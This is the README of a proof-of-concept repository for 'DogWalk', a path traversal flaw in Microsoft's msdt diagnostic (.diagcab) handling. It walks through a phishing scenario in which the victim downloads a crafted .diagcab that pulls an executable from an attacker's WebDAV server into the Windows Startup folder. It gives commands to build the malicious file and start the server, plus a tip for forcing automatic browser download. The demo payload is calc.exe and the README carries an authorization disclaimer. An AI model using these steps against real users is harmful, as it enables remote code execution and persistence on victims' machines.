 <div align=center>
<h1> Dogwalk Proof-of-Concept🐾</h1>
<pre><code>
<h><strong>🚨 Disclaimer 🚨</strong></h4>

<br><br>The PoC enables an attacker to be able to obtain <strong>Remote Code Injection</strong> on a Windows victim device.
<br>The goal of this repo is to make a PoC even more usable than the <a href=https://github.com/irsl/microsoft-diagcab-rce-poc>initial repo</a>.
<br>DO NOT USE IT WITHOUT PRIOR AUTHORIZATION!
<br><br><i>Regarding the damage caused and the simplicity of exploitation, I hope Microsoft will fix it</i>
</code></pre>
</div> 

***Core concept:*** path traversal vulnerability in Microsoft's Diagcab technology (`msdt`) that could lead to remote code execution.

You can find the full advisory in the [blog post](https://medium.com/@radimre83/the-trouble-with-microsofts-troubleshooters-6e32fc80b8bd)

The vulnerability has been reported for **2 years** (by [@irsl](https://github.com/irsl)) and still has **no fix**!


* [🧠 Understand it](#how-it-works)
* [🐾 Run it](#lets-get-it)

## How it works?

The Proof-of-Concept set up a webdav server hosting a malicious `.diagcab` file that will perform a path transversal to write a malicious executable in `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup`. Writing an executable in this folder will execute it each time the user start the windows machine, this is called ***Boot Logon Autostart Execution***.

So, basically what we need is:
* webDAV server
* Malicious `.diagcab` file
* Malicious executable *(legit one or basic text file is sufficient for the PoC)*

### 🎬 Scenario

1. The victim will visit a link (phishing, social engineering, or whatever) that will download the `.diagcab` file

*(💡 use `Content-type: application/octet-stream`response header to make the Browser automaticaly downloading the file when browsing the url)*

2. The victim click on the file download (could easily/accidentaly happen by just clicking on the browser download folder)
3. The cab file loads the webdav malicious executable -> ***(path transversal)** downloaded in Start up menu
4. The user restart his device -> ***(RCE)***

## Let's get it

### 🔨 Craft the  `.diagcab` file

* `.diagcfg` are simple XML files that hold reference to one or more diagnostic packages and provide meta information about them
* They are packaged into Microsoft cabinet file archives and saved with `.diagcab` extension.

Firt build `custom.diagcfg`:
```shell
./build-malicious-diagcfg.sh --url [WEBDAV_URL]
```

And build the `hotfix895214.diagcab`:
```shell
cabarc.exe n hotfix895214.diagcab custom.diagcfg
# run it on windows (or with wine). If you do not find carbarc.exe use http://jc.bellamy.free.fr/download/cabarc.exe or http://download.microsoft.com/download/platformsdk/cab/2.0/w98nt42kmexp/en-us/Cabsdk.exe
```

### 🏗️ Set up the server

Put the executable you want to transfer on victim machine within `./webdav/malicious` folder... *(Here use the classic `calc.exe`)*

...And launch the server:
```
perl diagcab-webdav-poc.pl
```

### 👁️ Wait and see...
